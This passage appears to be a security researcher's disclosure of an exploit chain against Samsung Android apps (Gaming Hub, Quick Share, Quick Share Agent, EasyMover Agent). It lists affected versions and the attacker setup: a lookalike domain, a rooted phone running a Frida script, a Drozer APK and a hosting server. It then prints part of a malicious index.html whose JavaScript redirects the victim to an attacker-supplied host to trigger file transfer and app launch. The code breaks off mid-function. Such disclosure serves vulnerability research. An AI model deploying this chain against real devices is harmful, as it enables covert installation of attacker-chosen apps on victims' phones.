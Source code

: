 ## Exploit Code

The exploit chain affects the following software. At the time of this document's writing, the affected versions listed below are the latest publicly released versions:

* Samsung Gaming Hub Android application
	* Package name: `com.samsung.android.game.gamehome`
	* Version: 7.1.01.7
* Samsung Quick Share
	* Package name: `com.samsung.android.app.sharelive`
	* Version: 13.6.53.6
* Samsung Quick Share Agent
	* Package name: `com.samsung.android.aware.service`
	* Version: 3.5.19.33
* Samsung EasyMover Agent
	* Package name: `com.sec.android.easyMover.Agent`
	* Version: 2.0.02.24

The exploit chain requires:

* Control of a domain name that starts with one of the following:
	* `us.mcsvc.samsung.com`
	* `gmp.samsungapps.com`
	* `smax.samsungapps.com`
* A web server that resides on the above controlled domain must have the following file:
	* `index.html`
* A rooted Samsung phone running the custom Frida script `yayscriptyay.js` within Bluetooth range of the target phone
* The rooted Samsung phone must also contain the following file and location:
	* `/storage/emulated/0/<any folder name>/yay.apk`
	* `yay.apk` can be any .apk file of your choosing
	* For this exploit chain, `yay.apk` is a custom build of Drozer
* An attacker controlled web server (can be any IP address or domain) which has the following files:
	* `yay.py`
	* `index.html` (different index.html)

For this exploit chain, Ken Gannon / 伊藤　剣 controls the domain `us.mcsvc.samsung.com.maliciouserection.com`. The contents of `index.html` at this webserver is below:

```
yaytrampolineyay
<script>

// get hostname and port
var yayquerystringyay = window.location.search;
var yayurlparamsyay = new URLSearchParams(yayquerystringyay);
var yayattackeryay = yayurlparamsyay.get('yayattackeryay');

// open sharelive to start awareservice
location.href="http://" + yayattackeryay + "/yaylaunchshareliveyay";

// redirect after 2 seconds
const yayshorttimeoutyay = setTimeout(yaystartyay, 2000);

// open sharelive and retrieve file
function yaystartyay() {
        location.href="http://" + yayattackeryay + "/yayshareliveyay";
}

// redirect after 15 seconds
const yaytimeoutyay = setTimeout(yayfinalyay, 15000);

// redirect to launch easymover agent
function yayfinalyay() {
```